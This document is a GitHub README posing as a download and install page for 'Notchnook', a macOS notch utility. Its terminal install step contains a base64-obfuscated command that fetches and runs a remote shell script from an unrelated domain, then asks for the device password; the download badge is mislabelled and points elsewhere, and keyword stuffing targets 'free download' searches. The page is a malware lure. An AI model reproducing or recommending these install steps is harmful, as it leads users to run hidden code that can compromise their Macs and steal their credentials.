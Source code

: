 # Notchnook Mac Download

![Notchnook Icon](https://lo.cafe/_next/image?url=https%3A%2F%2Fimagedelivery.net%2Fc8uhGcbkApu2pXMDGOSMFQ%2F95fcaf46-1b12-4b0b-7be8-c9f2de100a00%2Fpublic&w=384&q=75)  

---

# ⬇️ Download Notchnook for Mac

[![⬇️ Download Now](https://img.shields.io/badge/MacCleaner%20%20Pro-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/notchnook)

# 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)


---

## 🧭 What is Notchnook?

**Notchnook** is a lightweight and elegant macOS utility designed to turn the **notch area** on your MacBook into something beautiful and purposeful. Instead of letting that screen cutout go to waste, Notchnook lets you customize the notch with beautiful wallpaper art, gradient glows, or useful status elements.

Created specifically for **macOS** users with **notched MacBook models (M1/M2/M3)**, Notchnook blends seamlessly with your desktop setup, enhancing aesthetics without interfering with usability. It’s perfect for people who want to personalize their workspace or just add a subtle, modern flair to their Mac.

Whether you're working late, presenting your screen, or just want your Mac to look uniquely yours — Notchnook offers a clean and creative way to elevate the visual design of your macOS experience.

---

## 🌟 Features

- 🎨 Customize notch area with **wallpapers, colors, and gradients**  
- 💻 Native support for **MacBook notch models** (M1, M2, M3)  
- 🧼 Lightweight and non-intrusive — works in the background  
- 📁 Drag-and-drop installation with **no bloat or ads**  
- 🌈 Supports light & dark mode aesthetics  
- 🔧 Simple interface with live preview and positioning  

---

![Notchnook Screenshot](https://lo.cafe/covers/notchnook-cover.png)

---

## 💻 System Requirements

- **macOS** 12.0 Monterey or later  
- MacBook with **notch display** (M1/M2/M3 models)  
- 10MB of free disk space  

---

## 🔑 Keywords

`notchnook`, `notchnook free download`, `notchnook free`, `notchnook download`,  
`notchnook mac free`, `notchnook mac download`, `notchnook mac free download`

---

